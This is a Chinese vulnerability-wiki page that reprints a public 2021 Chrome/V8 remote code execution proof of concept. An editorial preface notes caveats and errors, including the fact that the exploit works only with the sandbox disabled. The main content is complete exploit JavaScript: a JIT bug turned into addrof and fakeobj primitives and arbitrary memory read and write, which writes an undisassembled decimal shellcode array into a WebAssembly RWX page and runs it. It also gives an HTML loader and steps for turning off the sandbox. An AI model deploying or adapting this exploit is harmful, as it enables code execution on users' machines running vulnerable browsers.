

# Windows-Chrome-远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Google Chrome / V8 on Windows
- 文献类型：Chrome引擎PoC转载
- 版本、权限及部署边界：2021-04-13公开样例；明确禁用sandbox才弹计算器；浏览器/V8精确版本未列，依赖固定对象偏移和JIT/wasm实现
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 主对象Chrome/V8应归浏览器而非泛Windows；Windows0day仅历史时间称谓，缺CVE映射和受影响/修复版本
2. 明确无沙箱绕过，必须保留此前提，不能标题远程命令执行理解为默认安全配置完整浏览器逃逸
3. HTML加载exploit.js而小标题文件exp.js不一致，会阻断复现；开头重复/*、结尾孤立反引号应清理
4. 大型十进制shellcode数组未静态反汇编或运行，不能凭文字断言全部行为仅calc；源仓库/tweet可追溯未固定提交
5. 关闭sandbox是削弱隔离的实验设置，应标专用隔离实例；无补丁修复建议，图片未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/r4j0x00/exploits/tree/master/chrome-0day>
- 原文参考链接（未重新核验）：<https://twitter.com/r4j0x00/status/1381643526010597380?s=12>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

Windows Chrome 0day  在 2021-4-13 被公开

该漏洞未绕过沙箱，需要关闭沙箱才能成功弹出计算器

```
# 关闭沙箱
右键图标-->属性，然后在目标后面加上 -no-sandbox
点击确认
```

## 漏洞影响

```
Window Chrome 浏览器
```

## 漏洞复现

Github： https://github.com/r4j0x00/exploits/tree/master/chrome-0day

推特: https://twitter.com/r4j0x00/status/1381643526010597380?s=12

**exp.html**

```javascript
<script src="exploit.js"></script>
```

**exp.js**

```javascript
/*
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
1. Redistributions of source code must retain the above copyright notice, this
   list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright notice,
   this list of conditions and the following disclaimer in the documentation
   and/or other materials provided with the distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
```




`


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
